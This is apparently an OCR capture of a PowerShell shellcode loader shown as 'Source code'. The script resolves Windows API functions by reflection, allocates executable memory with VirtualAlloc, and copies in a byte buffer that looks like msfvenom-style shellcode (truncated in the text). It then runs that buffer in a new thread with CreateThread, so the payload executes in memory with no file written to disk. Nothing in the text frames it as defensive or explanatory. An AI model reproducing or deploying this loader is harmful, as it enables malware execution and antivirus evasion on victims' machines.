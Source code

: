  

function LookupFunc {  
Param ($moduleName, $functionName)

$assem = ([AppDomain]::CurrentDomain.GetAssemblies() |  
Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].

Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')  
$tmp=@()  
$assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}} return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,

@($moduleName)), $functionName)) }

function getDelegateType {

Param (  
[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,

[Parameter(Position = 1)] [Type] $delType = [Void] )

$type = [AppDomain]::CurrentDomain.

DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),

[System.Reflection.Emit.AssemblyBuilderAccess]::Run). DefineDynamicModule('InMemoryModule', $false). DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])

$type.  
DefineConstructor('RTSpecialName, HideBySig, Public',

[System.Reflection.CallingConventions]::Standard, $func). SetImplementationFlags('Runtime, Managed')

$type.  
DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).

SetImplementationFlags('Runtime, Managed')

return $type.CreateType() }

$lpMem =  

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0... [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)